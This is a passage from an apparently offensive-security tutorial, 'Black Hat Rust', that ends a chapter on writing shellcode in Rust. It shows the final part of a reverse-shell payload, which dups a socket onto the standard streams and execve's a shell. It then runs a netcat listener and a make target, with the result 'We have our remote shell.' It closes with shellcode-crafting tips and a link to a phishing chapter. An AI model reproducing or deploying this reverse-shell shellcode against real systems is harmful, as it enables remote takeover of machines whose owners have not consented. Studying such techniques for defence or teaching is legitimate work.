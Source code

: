 ```rust
        );

        syscall2(SYS_DUP2, socket_fd, STDIN);
        syscall2(SYS_DUP2, socket_fd, STDOUT);
        syscall2(SYS_DUP2, socket_fd, STDERR);

        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, 0);
    };

    loop {}
}
```

Way more digest, isn't it?


Let's try it:

In shell 1:
```bash
$ nc -vlnp 8042
Listening on 0.0.0.0 8042
```

In shell 2:
```bash
$ make run_tcp
```

And Bingo! We have our remote shell.


## Summary

* Only the [Rust Core](https://doc.rust-lang.org/core/) library can be used in an `#![no_std]` program / library
* A Shellcode in Rust is easy to port across different architecture, while in assembly, it's close to impossible
* The more complex a shellcode is, the more important it is to use a high-level language to craft it
* Shellcodes need to be position-independent
* When crafting a shellcode in Rust, use the stack instead of `const` arrays
* Use the never type and an infinite loop to save a few bytes when working with stack variables


## [Next Chapter: Phishing with WebAssembly](/black-hat-rust/9)
